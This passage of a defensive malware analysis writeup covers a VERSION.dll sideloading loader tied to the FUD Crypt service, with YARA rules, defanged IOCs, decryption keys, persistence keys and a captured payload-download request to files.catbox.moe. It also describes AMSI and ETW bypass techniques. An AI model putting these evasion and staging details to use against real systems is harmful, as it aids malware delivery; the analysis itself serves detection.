2. Ctrl-Alt-Intel research describing the FUD Crypt MaaS platform, the 20 carrier profiles, the Dropbox-primary / Catbox-fallback staging, the AMSI hardware-breakpoint bypass, the single-byte ETW patch, and the Microsoft Azure Trusted Signing abuse.
3. CyberSecurityNews and GBHackers reporting reproducing the same details.

Each item in that chain is independently verifiable, but none of them came from a sandbox label. If you ingest this loader into your detection pipeline, do not expect AV or sandbox vendors to call it FUD Crypt. Match the carrier on the byte sequences in the YARA rule, match the test stage on the literals, and pivot from there.

## Cross-Referencing Public Threat Intel

Once the family attribution landed I went back to public sources for both hashes (loader `c73947cf...` and the recovered .NET stage `86e9024c...`) to see whether anybody else had touched them, and to look for community comments or sandbox reports that might add detail or contradict the analysis. The findings turned out to be the most interesting moment of the whole writeup.

**VirusTotal.** Anonymous probes against the v3 file endpoint return `401 Unauthorized` for both hashes. The web UI is a JavaScript SPA and does not render comments to a non-logged-in scraper. Without a key on hand, I could not confirm or deny community comments on either hash. Treat the VT comment section as a known unknown.

**MalwareBazaar.** The local threat-intel pipeline ingested the loader from the MB feed on 2026-04-20, but a fresh `get_info` call against MB now returns `hash_not_found` for the loader, the .NET stage, and the encrypted catbox blob. The sample appears to have been retired from the public dataset. The MB tag `FudCrypt` does not exist yet at the time of writing.

**Web search.** Direct Google and Bing searches on either SHA256 return zero relevant hits. The exact catbox path (`v5fllr.bin`) does not appear in any indexed sandbox report on ANY.RUN, Joe Sandbox, or other public services, even though the `files.catbox.moe` host shows up in roughly 600 unrelated reports.

**Hybrid Analysis (CrowdStrike Falcon Sandbox).** Both hashes are present, both with full reports, and the timing is what tied the operator workflow together.

The carrier DLL was submitted on **2026-04-20T23:07:57Z**, sandbox report ID `69e6b42079aaeb902a08ac15`. Verdict: malicious, threat score 86, AV detection 47%. CrowdStrike Falcon's static and ML scanner labelled it `Win/malicious_confidence_90%` with no specific family. The OPSWAT MetaDefender multi-scan ran 26 engines and got exactly **one** hit (SentinelOne, "Suspicious"). Falcon's sandbox spawned `rundll32.exe`, observed network traffic, then crashed (`WerFault.exe` was triggered, which is also why the report has zero file-drop indicators downstream of the CLR bootstrap). The community comment section is empty. Zero blog posts. Zero votes.

What matters most is that Falcon captured the live HTTP request:

```
GET /v5fllr.bin HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
Host: files.catbox.moe
Cache-Control: no-cache
```

That is **byte-for-byte identical** to the User-Agent and URL I reverse-engineered out of the `.data` stack-strings without ever running the binary. Two completely independent paths (static disassembly here, dynamic detonation at HA) converged on the same network indicator, which is about as strong as confirmation gets without IDA-Free turning into IDA-Pro.

The .NET test payload was submitted to the same service on **2026-04-20T22:59:44Z**, exactly **8 minutes and 13 seconds before** the carrier, verdict `no specific threat`, 0 detections out of all engines, also zero comments. No sandbox crashed on it because it does nothing alarming. That eight-minute window is the operator's QA loop laid bare: build a clean test stub, submit to HA to confirm it sails past every engine (it does), encrypt it with the loader's keys, upload to catbox, then submit the carrier and check what HA flags. The loader picked up CrowdStrike but slipped past the rest. The customer presumably gets the carrier plus a fresh real payload via the Dropbox primary path, not the catbox fallback.

The closing piece of validation is that **the SHA256 of the file my decryptor produced from the catbox ciphertext (`86e9024c...`) is identical to the .NET assembly the operator uploaded as cleartext to HA eight minutes earlier**. Same file, different paths into my desk:

```
operator clean upload to HA  ----------------------> 86e9024c21478f7fa59bf95aef8e7bfb869ed872e8a92e7ca19118df0f74f457
                                                                ^                  =          ^
operator-encrypted catbox blob -> my decrypt_stage2 -> 86e9024c21478f7fa59bf95aef8e7bfb869ed872e8a92e7ca19118df0f74f457
```

The HA report also lists a small set of MITRE technique hits that overlap cleanly with the static analysis (T1059, T1055, T1071, T1083, T1090, T1105, T1134.001, T1140, T1497/T1497.001, T1543, T1553, **T1562 Impair Defenses**, T1564, **T1573 Encrypted Channel**). T1562 and T1573 are particularly satisfying because they are exactly the AMSI/ETW patches and the RC4+XOR pipeline that the disassembly walk-through documents. Three "related" SHA256s appear in the report; two are `rundll32.exe` and `WerFault.exe` (the host process and the crash dumper), and the third (`d7390d26...`) shows up without surrounding context and is most likely an internal Falcon sandbox artifact.

**Other notes from the local triage that survived the cross-check.** The threat-intel pipeline's pre-bake spotted the TLS callbacks at `0x2bd2d23b0` (`__dyn_tls_init`) and `0x2bd2d2380` (`__dyn_tls_dtor`). Both are stock MinGW-w64 CRT initializers, not malicious. It also spotted a 30 212-byte overlay tacked onto the end of the file: a leftover **COFF symbol table** (`.symtab` style, includes `.file` records and `crtdll.c` filename leakage). Together with the 157 KB DWARF section in `/19`, those two artifacts mean the file is closer to **86 KB** of useful content padded out to **243 KB** by debug info that could have been stripped with one extra `--strip-all` flag at link time. These are both worth folding into hunting logic.

For posterity, the loader's other hashes from the local triage (not previously listed):

```
md5:     3201f19c0bb2ddf430ae6da4d30a8cd9
sha1:    9215d1233d6110b156480cc70d79afdf49181d37
imphash: e2c01fb3adc4845e1ae802a2da8afff9
tlsh:    T1FC341D91B281FDB6DC698F7820D25309A3BAF081971DEB2F6620FE3C025EB54D573685
```

The stage-2 stub deliberately gets no imphash entry: every .NET PE imports only `mscoree!_CorExeMain`, so imphash on a managed assembly is a meaningless pivot.

## Code Weaknesses

VerShadow makes a lot of right choices but it leaves operator fingerprints in places that matter for hunting.

- The DWARF section (`/19`, 157 KB) was retained. The compile flags `-O2 -fno-PIE -g`, the `mingw-w64-crt 9.3-win32` compiler ID, and the path `./build/x86_64-w64-mingw32-x86_64-w64-mingw32-crt` are recoverable from the binary in seconds. Stripping that section would have shrunk the file from 243 KB to about 86 KB and eliminated five distinct YARA pivots.
- The 16-byte RC4 key and the 32-byte rolling key are both in cleartext, side by side, in `.data`. Anybody who finds the key once finds every sample produced by the same builder.
- The HTTPS staging URL is a single string. There is no DGA, no fallback, no second host. Once `files.catbox.moe/v5fllr.bin` is taken down the loader is inert.
- The forged compile timestamp is in 2026-11-26, future-dated relative to the first-seen date on Bazaar. Anything stamped after `time(NULL)` is a near-perfect EDR pivot for forged headers.
- Hardware breakpoint installation leaves DR0 and DR7 set to non-default values for the entire lifetime of the process. EDR sensors that snapshot the thread context periodically can flag this directly without ever seeing the loader code.
- The MinGW import set is a fingerprint by itself. Most commodity Windows malware is built with MSVC. A 64-bit DLL that imports `__iob_func`, `_amsg_exit`, `_initterm`, and `__lock` from msvcrt.dll alongside `WININET` and `OLEAUT32` is unusual enough to merit a hunt rule on the import-DLL pair alone.
- The "exactly once" gate is a single global. A determined emulator can flip the byte and watch the worker fire repeatedly, which is exactly what you want when you are trying to extract C2 from a sample.

## YARA Rules

Three rules ship in `detection/`. The loader rule has nine pattern atoms gated by PE-module characteristics; the threshold is "three of nine" so a per-build key rotation does not blind the rule. The generic resolver rule will hit on lots of unrelated MinGW loaders (Cobalt Strike, Metasploit, DonutLoader, sRDI), so use it for triage rather than primary detection. The test-payload rule was shown next to the ILSpy decompilation in the stage-2 section.

```text
import "pe"

rule VerShadow_Loader
{
    meta:
        author      = "Tao Goldi"
        description = "VerShadow: 64-bit MinGW DLL that masquerades as VERSION.dll, ETW+AMSI bypass, downloads and runs a .NET assembly from catbox.moe (FUD Crypt VERSION.dll carrier)"
        family      = "FUD Crypt"
        reference   = "c73947cf188f442bed228f62a3ba5611009fdc2f1878aaed7065db95ede05521"
        date        = "2026-04-26"
        version     = 1
        // $rc4key, $key32 and $url* are likely PER-BUILD on the FUD Crypt platform.
        // The condition keeps a 3-of-9 cushion so structural tradecraft signals
        // ($h_etw, $h_amsi, $resolver, $amsi_xor, $antidbg, $amsi_einval) still trip
        // this rule on rebuilds even if both keys and the URL fragments rotate.

    strings:
        $url1 = { 68 74 74 70 73 3A 2F 2F }
        $url2 = { 66 69 6C 65 73 2E 63 61 }
        $url3 = { 74 62 6F 78 2E 6D 6F 65 }

        $h_etw  = { BA EE C3 47 20 }
        $h_amsi = { BA 1E 15 50 95 }

        $resolver = { C1 CA 0D 48 83 C1 01 01 C2 0F BE 01 84 C0 75 F0 }

        $rc4key = { 30 89 F0 10 89 76 26 B2 35 AC 34 72 3F 5E D6 4C }
        $key32  = { 32 55 80 3F 11 5D 04 01 41 45 C5 D6 85 F6 FB 26
                    E1 E5 31 5F D3 E2 06 DD 6C B2 16 07 F2 97 CB 63 }

        $amsi_xor    = { 70 7C 62 78 3F 75 7D 7D }
        $antidbg     = { 35 B2 BD 05 67 }
        $amsi_einval = { BA 57 00 07 80 41 B8 FF FF FF FF }

    condition:
        uint16(0) == 0x5A4D and
        pe.is_pe and
        pe.machine == pe.MACHINE_AMD64 and
        pe.exports("VerQueryValueA") and
        pe.exports("GetFileVersionInfoA") and
        pe.imports("WININET.dll", "InternetOpenUrlA") and
        pe.imports("KERNEL32.dll", "CheckRemoteDebuggerPresent") and
        pe.imports("KERNEL32.dll", "SetThreadContext") and
        3 of ($url*, $h_etw, $h_amsi, $resolver, $rc4key, $key32, $amsi_xor, $antidbg, $amsi_einval)
}

rule VerShadow_Resolver_Generic
{
    meta:
        author      = "Tao Goldi"
        description = "Generic match for the ROR-13 GetProcAddress-by-hash resolver body. Triage-only: also hits Cobalt Strike, Metasploit, sRDI, DonutLoader, etc."
        date        = "2026-04-26"
        version     = 1

    strings:
        $resolver_body = {
            C1 CA 0D
            48 83 C1 01
            01 C2
            0F BE 01
            84 C0
            75 F0
            44 39 DA
        }

    condition:
        uint16(0) == 0x5A4D and
        pe.is_pe and
        pe.machine == pe.MACHINE_AMD64 and
        $resolver_body
}
```

## MITRE ATT&CK Mapping

| Tactic | Technique | ID | Where it shows up |
| --- | --- | --- | --- |
| Persistence / Privilege Escalation | DLL Search Order Hijacking | T1574.001 | VERSION.dll exports |
| Persistence / Privilege Escalation | DLL Side-Loading | T1574.002 | drop alongside signed host |
| Defense Evasion | Debugger Evasion | T1622 | CheckRemoteDebuggerPresent + IsDebuggerPresent |
| Defense Evasion | Time Based Evasion | T1497.003 | GetTickCount jitter |
| Defense Evasion | Obfuscated Files or Information | T1027 | stack strings, XOR mask, MinGW C++ random names |
| Defense Evasion | Dynamic API Resolution | T1027.007 | ROR-13 by-hash resolver |
| Defense Evasion | Indicator Blocking (ETW) | T1562.006 | EtwEventWrite -> RET |
| Defense Evasion | Disable or Modify Tools (AMSI) | T1562.001 | AmsiScanBuffer DR0 + VEH |
| Defense Evasion | Reflective Code Loading | T1620 | _AppDomain.Load_3 |
| Defense Evasion | Deobfuscate / Decode Files | T1140 | RC4 + 32-byte rolling SUB+XOR |
| Command and Control | Application Layer Protocol Web | T1071.001 | HTTPS GET to catbox |
| Command and Control | Web Service | T1102 | abuse of public file host |
| Execution | Windows Management Instrumentation | T1047 | available via .NET stage |

## IOC Appendix

Defanged so a careless paste does not fire off a real fetch.

```
Loader (VERSION.dll carrier):
URL (fallback):  hxxps[:]//files[.]catbox[.]moe/v5fllr[.]bin
Domain:          files[.]catbox[.]moe
User-Agent:      Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36

Loader hashes:
    SHA256:  c73947cf188f442bed228f62a3ba5611009fdc2f1878aaed7065db95ede05521
    SHA1:    9215d1233d6110b156480cc70d79afdf49181d37
    MD5:     3201f19c0bb2ddf430ae6da4d30a8cd9
    Imphash: e2c01fb3adc4845e1ae802a2da8afff9
    TLSH:    T1FC341D91B281FDB6DC698F7820D25309A3BAF081971DEB2F6620FE3C025EB54D573685

Public sandbox reference:
    Hybrid Analysis loader report:
      hxxps[:]//www.hybrid-analysis.com/sample/c73947cf188f442bed228f62a3ba5611009fdc2f1878aaed7065db95ede05521/69e6b42079aaeb902a08ac15
    Hybrid Analysis stage-2 report:
      hxxps[:]//www.hybrid-analysis.com/sample/86e9024c21478f7fa59bf95aef8e7bfb869ed872e8a92e7ca19118df0f74f457

Stage-2 ciphertext (live pull on 2026-04-26, 4096 bytes):
    3f631c11de145502d509b5c4b94c461da32ebadf010284c826895e253439b2f5

Stage-2 decrypted (.NET, FudCrypt builder QA, 4096 bytes):
    SHA256:  86e9024c21478f7fa59bf95aef8e7bfb869ed872e8a92e7ca19118df0f74f457
    SHA1:    d81b50362c2255c0ac46f3ea894b0f2802372a49
    MD5:     1c38f7abf65f19221e9f8b1bd345e6bc
    Entry token: 0x06000001 (TestPayload.Program.Main)
    OriginalFilename: test_dotnet_payload.exe
    Drops:   %USERPROFILE%\Desktop\dotnet_test_success.txt
    MessageBox title: "FudCrypt Test"
    (imphash deliberately omitted: every .NET PE imports only mscoree!_CorExeMain)

FUD Crypt platform (per Ctrl-Alt-Intel / CyberSecurityNews):
    fudcrypt[.]net               - operator panel
    mstelemetrycloud[.]com       - real C2 (in deployed builds, not in this stub)
    Persistence: HKCU\Software\Microsoft\Windows\CurrentVersion\Run\WindowsUpdateSvc
    Persistence: scheduled task "MicrosoftEdgeUpdateCore"
    Code signing abuse: Microsoft Azure Trusted Signing

Crypto material (use only against samples you have the right to handle):
    RC4 key (16 bytes)
        30 89 F0 10 89 76 26 B2 35 AC 34 72 3F 5E D6 4C
    Stage-2 key (32 bytes, rolling)
        32 55 80 3F 11 5D 04 01 41 45 C5 D6 85 F6 FB 26
        E1 E5 31 5F D3 E2 06 DD 6C B2 16 07 F2 97 CB 63

Build artefacts that survive in the binary:
    GCC: (GNU) 9.3-win32 20200320
    GCC: (GNU) 10-win32 20220113
    Mingw-w64 runtime failure:
    ./mingw-w64-crt/crt/crtdll.c
    ./build/x86_64-w64-mingw32-x86_64-w64-mingw32-crt
```

## Conclusion

VerShadow is a clean little loader that does almost everything right and leaves just enough operator fingerprints to be hunted. The DLL sideload gives the operator a free signed parent. The ROR-13 resolver hides the import surface from naive AV. The ETW patch silences logging. The hardware-breakpoint AMSI bypass is invisible to entry-prologue scanners. The CLR loader gives the next stage the full power of the .NET runtime in a process that already had a valid signature. None of these techniques are new but the way they are stitched together is tidy, and the entire malicious payload is barely 9 KB of executable code.

The mistake that broke this analysis open is on the operator side, not in the binary. They left a builder QA test payload sitting at the catbox fallback. Pulling that file and decrypting it with the keys baked into the loader gave back a managed assembly that politely told me it was a `FudCrypt Test`. From that string forward the rest of the platform context (carriers, primary Dropbox staging, Microsoft Azure Trusted Signing abuse, `mstelemetrycloud.com` C2, `WindowsUpdateSvc` and `MicrosoftEdgeUpdateCore` persistence) is well-documented public reporting that lined up with everything in the loader.

Two of the things that worked against the loader during this analysis are likely to keep working in the future. The decision to ship debug info (`/19` section) puts the toolchain on the wrapper for free. The decision to put both keys in cleartext means that the same builder produces samples that can be matched on the byte sequence, regardless of how the operator changes the URL or the .NET payload. If you are hunting these in your environment, look for VERSION.dll proxies whose import set includes WININET and SetThreadContext, look for processes whose threads carry non-zero DR0 and DR7 values without a debugger, look for HTTPS connections to `files.catbox.moe` from binaries whose parent did not import `WININET`, and watch for downstream registry/scheduled-task creation matching the FUD Crypt persistence pattern.

The .NET payload sitting at `v5fllr.bin` is what an operator actually wants. The loader is just the door. The customers who paid the platform between $800 and $2,000 a month for a build do not put their real RAT on the catbox fallback - they put it on Dropbox - but the same key pair decrypts both, and the loader does not care which mirror you pull from. Hand any future fresh ciphertext to `scripts/decrypt_stage2.py` and you will have the next stage in a few seconds.

## Sources and References

### FUD Crypt platform reporting

- Ctrl-Alt-Intel, *Dissecting FudCrypt: A Real-World Malware Crypting Service Analysis*. <https://ctrlaltintel.com/research/FudCrypt-analysis-1/>
- CyberSecurityNews, *Hackers Use FUD Crypt to Generate Microsoft-Signed Malware With Built-In Persistence and C2*. <https://cybersecuritynews.com/hackers-use-fud-crypt/>
- GBHackers, *Microsoft-Signed Malware Built With FUD Crypt Packs Persistence and C2*. <https://gbhackers.com/microsoft-signed-malware/>
- Cyberpress, *Hackers Use FUD Crypt To Deliver Microsoft-Signed Malware With C2 Capabilities*. <https://cyberpress.org/fud-crypt-signs-malware/>
- Sekoia.io Blog, *The Architects of Evasion: a Crypters Threat Landscape*. <https://blog.sekoia.io/the-architects-of-evasion-a-crypters-threat-landscape/>
- Operator panel (referenced in the reporting above): `fudcrypt[.]net`

### This sample on public services

- Hybrid Analysis, full Falcon Sandbox report for the loader (`c73947cf...`). <https://www.hybrid-analysis.com/sample/c73947cf188f442bed228f62a3ba5611009fdc2f1878aaed7065db95ede05521/69e6b42079aaeb902a08ac15>
- Hybrid Analysis, sample page for the decrypted .NET stage two (`86e9024c...`). <https://www.hybrid-analysis.com/sample/86e9024c21478f7fa59bf95aef8e7bfb869ed872e8a92e7ca19118df0f74f457>

### VERSION.dll sideloading and the OneDrive vector

- CyberSecurityNews, *Hackers Exploit OneDrive.exe Through DLL Sideloading to Execute Arbitrary Code*. <https://cybersecuritynews.com/onedrive-exe-dll-sideloading-with-malicious-dll-files/>
- GBHackers, *Hackers Abuse OneDrive.exe via DLL Sideloading to Run Malicious Code*. <https://gbhackers.com/hackers-abuse-onedrive-exe-via-dll-sideloading/>
- Prevent Ransomware, *Hackers Exploit OneDrive DLL Sideloading: Why Isolation Matters*. <https://prevent-ransomware.com/blog/hackers-exploit-onedrive-dll-sideloading-why-isolation-matters>
- MQSec, *OneDriveUpdater DLL Sideloading & SigFlip*. <https://www.mqsec.me/2023/01/19/onedriveupdater-dll-sideloading-sigflip/>
- ChoiSG, *OneDriveUpdaterSideloading* PoC reproduction of the Palo Alto Unit 42 technique. <https://github.com/ChoiSG/OneDriveUpdaterSideloading>
- Splunk Security Content, *Windows Hijack Execution Flow Version Dll Side Load* detection rule. <https://research.splunk.com/endpoint/8351340b-ac0e-41ec-8b07-dd01bf32d6ea/>
- Rewterz, *Hackers Exploit OneDrive via DLL Sideloading to Run Malicious Code*. <https://rewterz.com/threat-advisory/hackers-exploit-onedrive-via-dll-sideloading-to-run-malicious-code>
- ghacks Tech News, *OneDrive DLL Sideloading vulnerability exploited in the wild*. <https://www.ghacks.net/2022/10/06/onedrive-dll-sideloading-vulnerability-exploited-in-the-wild/>

### General DLL sideload background

- tothi, *dll-hijack-by-proxying* (the open-source MinGW DLL proxy template the FUD Crypt carrier appears to be derived from). <https://github.com/tothi/dll-hijack-by-proxying>
- zSecurity, *DLL Proxying and Sideloading*. <https://zsecurity.org/dll-proxying-and-sideloading/>
- Dennis Babkin, *Windows Security Legacy: DLL Hijacking - Why running executables from a user-writable location is a bad idea*. <https://dennisbabkin.com/blog/?t=windows-security-legacy-dll-hijacking-running-executables-from-user-writable-location>
- Microsoft Learn, *Dynamic-link library search order* (canonical reference for Safe DLL Search Mode). <https://learn.microsoft.com/en-us/windows/win32/dlls/dynamic-link-library-search-order>

### Catbox.moe abuse pattern (background)

- The Nimble Nerd, *Catbox.moe Malware Madness: The Surprising Download Haven for Hackers*. <https://thenimblenerd.com/article/catbox-moe-malware-madness-the-surprising-download-haven-for-hackers/>
- McAfee Labs, *REvil Ransomware Uses DLL Sideloading*. <https://www.mcafee.com/blogs/other-blogs/mcafee-labs/revil-ransomware-uses-dll-sideloading/>

### Local artefacts produced during this analysis

- Loader sample: `sample/c73947cf188f442bed228f62a3ba5611009fdc2f1878aaed7065db95ede05521.exe`
- Stage-2 ciphertext (live pull from catbox on 2026-04-26): `stage2/v5fllr.bin.dl`
- Stage-2 decrypted (.NET assembly): `stage2/v5fllr.decrypted`
- Decryption pipeline: `scripts/decrypt_stage2.py`
- YARA rules: `detection/vershadow.yar`, `detection/fudcrypt_test_payload.yar`
- Diagrams: `images/killchain.png`, `images/clr_loader.png`, `images/dll_search_order.png`
- Full structured report: `reports/json/vershadow_analysis_report.json`
